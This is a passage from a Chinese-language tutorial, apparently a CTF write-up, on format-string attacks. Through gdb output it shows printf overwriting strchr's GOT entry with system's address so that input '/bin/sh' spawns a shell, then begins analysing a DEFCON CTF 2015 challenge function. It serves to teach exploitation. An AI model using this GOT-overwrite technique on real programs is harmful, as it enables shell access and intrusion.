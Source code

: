 接着执行printf的调用：

```
(gdb) nn
   0x002a918d in ?? ()
=> 0x2a918d:    lea    eax,[ebx-0x1fb4]

```

调用printf之后，查看目标地址002AD05C的值：

```
(gdb) dd 0x002AD05C
0x002AD05C : 00946210 002A89B6 00921C00 002A89D6
0x002AD06C : 0099C620 002A89F6 00A07EC0 002A8A16
0x002AD07C : 009EF0D0 009371C0 009EEBD0 002A8A56
0x002AD08C : 00000000 002AD090 00000000 00000000

```

原来的009843E0变成了00946210，也就是system的地址，可以查看一下：

```
(gdb) uu 0x946210
   0x946210 <system>:   sub    esp,0xc
   0x946213 <system+3>: mov    DWORD PTR [esp+0x4],esi
   0x946217 <system+7>: mov    esi,DWORD PTR [esp+0x10]

```

此时对strchr的调用变成了对system的调用，随后如果攻击者发送"/bin/sh"字符串,本来由strchr处理的事情，现在变成了由system处理，从而达成了执行system("/bin/sh")的目标。

0x04 实例分析
=========

* * *

这里采用了DEFCON CTF 2015的一个pwn做为例子(wwtw_c3722e23150e1d5abbc1c248d99d718d)。

在wwtw前面的俄罗斯方块的剧情可nop掉，以便程序直接到我们关注的函数sub_1027()。此外，定时器也会影响调试，给nop掉以方便调试。 要攻击的目标函数流程如下：

```
    #!c++
int sub_1027()
{
  double v0; // ST28_8@6
  int result; // eax@9
  int v2; // ecx@9
  char *nptr; // [sp+24h] [bp-424h]@4
  double v4; // [sp+30h] [bp-418h]@6
  char s; // [sp+3Ch] [bp-40Ch]@2
  int v6; // [sp+43Ch] [bp-Ch]@1

  v6 = *MK_FP(__GS__, 20);
  while ( 1 )
  {
    while ( 1 )
    {
      printf("Coordinates: ");
      fflush(stdout);
      if ( sub_F7E(0, (int)&s, 0x3FF, 10) == -1 )
        exit(-1);
      nptr = strchr(&s, 0x2C);
      if ( nptr )
        break;
      puts("Invalid coordinates");
    }
    v0 = atof(&s);
    v4 = atof(nptr + 1);
```